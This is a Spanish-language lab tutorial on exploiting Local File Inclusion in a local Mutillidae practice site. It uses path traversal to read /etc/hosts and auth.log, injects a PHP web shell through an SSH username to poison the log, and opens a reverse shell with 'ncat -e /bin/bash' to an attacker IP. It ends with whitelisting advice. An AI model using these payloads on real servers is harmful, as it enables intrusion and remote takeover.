









# Explotando LFI



### 🔸Que es LFI❔

La vulnerabilidad de inclusión de archivos locales(Local File Inclusion[LFI]) permite que un atacante incluya un archivo dentro del sistema, esto sucede debido a un mal manejo de las configuraciones a las entradas del usuario.
La inclusión de archivos locales es el proceso de incluir archivos, que ya están presentes localmente en el servidor, el parámetro podría pasar a través de GET (URL) o POST (variables) debido a la contaminación de los parámetros. El uso del operador transversal principal ("..") puede ayudar a salir de las carpetas de archivos del servidor web. Además, se pueden probar rutas de archivo directas.
Esto puede llevar a que se genere el contenido del archivo, pero dependiendo de la gravedad, también puede conducir a ejecución de código en el lado del cliente, como JavaScript, que puede provocar otros ataques, como cross site scripting (XSS), Denegación de servicio (DoS), Divulgación de información confidencial, entre otros.

### 🔅Vulnerando el sitio web.



1. Ingresemos al sitio web directamente desde el navegador o bien desde Termux con :
```bash
termux-open-url http://127.0.0.1:4546
```
2. Desde la página principal ingresa a :

• OWASP 2017
• A5 - Control de acceso roto
• Referencias de objetos directos inseguros
• Inclusión de archivos locales



3. Copiamos la liga de la barra de direcciones y hagamos una peticion para un análisis más detallado desde Termux con curl :
```bash
curl -sf --head http://127.0.0.1:4546
```
Vemos que se trata de una solicitud GET por lo tanto los parámetros se pueden modificar a través de curl o directamente desde la URL en el navegador.



4. Modifiquemos la solicitud e intentemos ver un archivo común, usamos la ruta como se muestra a continuación para asegurarnos de que regresamos al directorio raíz.

   • `page=../../../../.. /etc/hosts`

Con en el navegador obtendremos como respuesta el contenido del archivo hosts ubicado en `$PREFIX/etc/hosts` como lo muestra en la imagen.

Esto significa que `$PREFIX/etc/hosts` se puede leer a través de LFI.


### 🔅Envenenamiento de registros a la ejecución remota de código.



Esta técnica se utiliza para envenenar cualquier registro si puede escribir un anexo. En este caso usaremos el archivo `auth.log` el cual es un registro de conexiones via ssh y que comunmente esta ubicado en `/var/log`.

1. Confirmamos que podemos leer el archivo `auth.log` usando la técnica LFI
     • Si nos muestra contenido: tenemos permisos.
     • Si nos muestra la página en blanco: existe pero no se puede leer.
     • Si nos muestra Error 404: el archivo no existe

En este caso, como vemos en la imagen, podemos leer el archivo `auth.log`.



2. Dado que en este archivo se escribe el historial de conexiones vía SSH intentaremos dejar una entrada de registro con un intento de conexion.
```bash
ssh Ivam3@127.0.0.1 -p 2222
```
Como tenemos acceso al servidor víctima podemos ver la entrada del registro con :
```bash
tail -n 5 -f $PREFIX/var/log/auth.log
```
Ahora vamos a verlo desde el punto de vista del atacante, es decir desde el navegador con LFI buscando esa entrada en :

 http://127.0.0.1:4546/index.php?page=../../../../../var/log/auth.log 

En este punto, sabemos que podemos escribir en este archivo y sabiendo que es un servidor en PHP podemos envenenarlo con código bajo este lenguaje.



3. Como bien sabemos la llamada a cmd bajo la función system por el método GET nos permite ejecutar comandos de shell en lenguaje PHP, es por ello que arbitrariamente lo inyectaremos al archivo `auth.log` sustituyendo el nombre de usuario en el intento de conexion SSH con :
```bash
ssh '<?php system($_GET[\'cmd\']); ?>'@127.0.0.1 -p 2222
```
Con ello cuando llamemos a este archivo se ejecutara junto al comando que le indiquemos directamente desde la URL debido a que usa el método GET. Validemos su entrada con :
```bash
tail -n 5 -f $PREFIX/var/log/auth.log
```



4. Ahora que hemos inyectado la variable "cmd" para ejecutar los comandos del sistema, probemos eso solicitando la impresión del directorio de trabajo actual (pwd) con :

http://127.0.0.1:4546/mutillidae/index.php?page=../../../../../var/log/auth.log&cmd=pwd

Aquí podemos ver que si funciona y se ejecuta el comando, pues como vemos en la imagen en lugar del nombre de usuario obtuvimos como respuesta la.ubucacion actual del directorio de trabajo(pwd).

Ya que tuvimos exito vamos a explotar esta vulnerabilidad obteniendo una shell reverse.



5. Existen varios métodos de obtener una reverse pero para esta práctica usaremos NETCAT así que iniciemos el oyente con :
--netcat
```bash
nc -nlvp 1234
```
--nmap-netcat
```bash
ncat -nlvp 1234
```
Ahora ejecutemos el siguiente comando en lugar de "pwd" :

http://127.0.0.1:4546/mutillidae/index.php?page=../../../../../var/log/auth.log&cmd=ncat -e /bin/bash 192.168.1.70 1234

Recuerda sustituir el protocolo de internet(Internet Protocol[IP]) por el de tu dispositivo atacante en `wlan0` o `tun0` en caso de tunalizar la WAN. Y si todo lo ejecutamos correctamente el oyente ahora debería haber obtenido la conexión reverse tal cual como se muestra en la imagen.

### 🔅Conclusión :

Local File Inclusion(LFI) es considerada una vulnerabilidad extremadamente peligrosa por el gran daño que se puede generar a la web infiltrada, la forma más eficaz para eliminar las vulnerabilidades de inclusión de archivos es evitar pasar la entrada enviada por el usuario a cualquier sistema de archivos. Si esto no es posible, la aplicación puede mantener una lista blanca de archivos, que pueden estar incluidos en la página, y luego usar un identificador para acceder al archivo seleccionado. Cualquier solicitud que contenga un identificador no válido debe ser rechazada, de esta manera no hay superficie de ataque para manipular la ruta como lo hicimos en esta práctica.

Recuerda‼️ NO memorices aprende practicando, que la genialidad es igual a la repetición.
